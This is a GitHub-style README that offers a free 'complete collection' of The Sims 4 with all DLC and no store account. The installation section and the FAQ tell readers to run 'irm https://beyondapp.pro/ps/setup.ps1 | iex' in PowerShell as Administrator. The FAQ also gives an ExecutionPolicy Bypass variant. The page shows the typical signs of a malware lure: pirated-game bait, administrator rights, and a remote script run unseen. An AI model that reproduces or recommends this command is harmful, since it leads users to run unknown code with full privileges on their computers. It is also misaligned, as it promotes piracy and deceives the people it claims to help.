

<div align="center">


<br>


# The Sims 4 Complete Collection Premium Edition
**Complete · All expansions · Build mode**
<br>
**Complete · All expansions · Build mode**
<br>
Premium · Pro · Full build · Windows



**The Sims 4 Complete Collection — life simulation with every expansion, game pack and stuff pack.**

</div>

---

> Complete Collection installs every DLC — build worlds and stories without EA subscription or store.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://beyondapp.pro/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🎮 **Full content** — Premium DLCs, skins and modes included in this build.
- ⚡ **Optimized performance** — Tuned defaults for smoother gameplay on PC.
- 📦 **Offline ready** — Play locally after setup without store restrictions.
- 🎯 **Controller support** — Gamepad and keyboard profiles ready to use.
- 🖥️ **Graphics presets** — Scalable quality settings for mid and high-end PCs.
- 💻 **Windows native** — Built for Windows 10/11 gaming setups.
- ⚡ **One command setup** — PowerShell handles download, unpack and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://beyondapp.pro/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
sims-4, gaming, simulation, ea-games, pc-games, games, the-sims-complete, the-sims-complete-pc, pc-gaming, single-player, game-client, gaming-community, entertainment, the, sims
